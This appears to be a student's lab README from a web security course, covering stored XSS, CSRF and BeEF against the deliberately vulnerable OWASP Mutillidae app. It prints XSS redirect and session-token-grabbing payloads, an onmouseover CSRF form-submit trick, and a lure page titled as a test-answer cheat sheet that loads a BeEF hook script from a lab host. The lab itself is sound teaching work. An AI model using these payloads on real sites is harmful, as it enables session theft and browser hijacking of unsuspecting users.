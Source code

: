 # INFO-6076 – Web Security
## 💥 Lab 03: XSS, CSRF, and BeEF

This lab explores the exploitation of web vulnerabilities including **Stored XSS**, **Cross-Site Request Forgery (CSRF)**, and **Browser Exploitation Framework (BeEF)** techniques on a vulnerable web app: **OWASP Mutillidae**.

---

## 🔧 Prerequisites

- Kali Linux VM with Firefox and BeEF installed
- Ubuntu VM running Mutillidae
- Windows 10 VM with Firefox browser
- Internet connectivity
- Apache server on Kali
- VMware Workstation 16+

## 🧪 Lab Components

### ✅ Part 1: Stored XSS – Page Redirection
- Used `<script>window.location = "http://www.offensive-security.com/"</script>` on blog entry
- Demonstrated malicious redirection through stored XSS
- Verified on Windows 10 VM via Firefox
- Grabbing session tokens using `<script>document.location="http://FOLusername-uws/..."</script>`

📸 See `screenshots/slide01.png` and `slide02.png`

---

### ✅ Part 2: CSRF Attack via Blog Entry
- Identified and modified a CSRF payload using directory traversal
- Inserted invisible form submission using:
  ```html
  <i onmouseover="window.document.getElementById('f').submit()">FOLusername will get A+ in this course</i>



---

### 📝 `testanswers.html` (sample payload for hooking)

```html
<!DOCTYPE html>
<html>
<head>
  <title>oabolurin</title>
  <script src="http://10.0.0.99:3000/hook.js"></script>
</head>
<body>
  <h1>Welcome to oabolurin’s Cheat Sheet!!!</h1>
  <p>You can find the answers to all of Art’s tests here.</p>
</body>
</html>
